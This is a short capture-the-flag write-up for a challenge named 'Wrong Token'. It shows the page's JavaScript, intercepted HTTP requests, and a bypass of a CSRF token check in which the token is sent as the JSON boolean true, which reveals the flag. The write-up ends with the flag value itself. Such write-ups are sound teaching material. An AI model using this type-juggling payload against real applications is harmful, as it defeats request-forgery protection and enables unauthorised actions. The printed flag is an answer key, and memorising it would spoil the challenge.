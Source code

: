 # Challenge Name: Wrong Token
- Level: hard

## Challenge Description:
Request to the flag is forbidden due to wrong csrf token ... can you fix it and reveal the flag.\

Link: http://34.76.107.218/wrongtoken/

## Solution:
1 - Go to http://34.76.107.218/wrongtoken/
2 - Look at souce code
```
    <script type="text/javascript">
		$.ajax('index.php', {
		    type: 'post',
		    contentType: 'application/json',
		    data: '{"action": "view_flag", "_token": "asdjhDJhfkjdI"}',
		});
    </script>
```

3 - Intercept request with Burp Suit
```
GET /wrongtoken/ HTTP/1.1
Host: 34.76.107.218
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

4 - Re-send request with the new params
```
POST /wrongtoken/index.php HTTP/1.1
Host: 34.76.107.218
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 52
Content-Type: application/json

{"action": "view_flag", "_token": "asdjhDJhfkjdI"}
```
- Response: `Failed Comparison ( incoming CSRF token != Session CSRF token )`

5 - Bypass token verif
- Try with `"_token": true`
- Response: flag is : dkjfhsdkhfr43r34r3
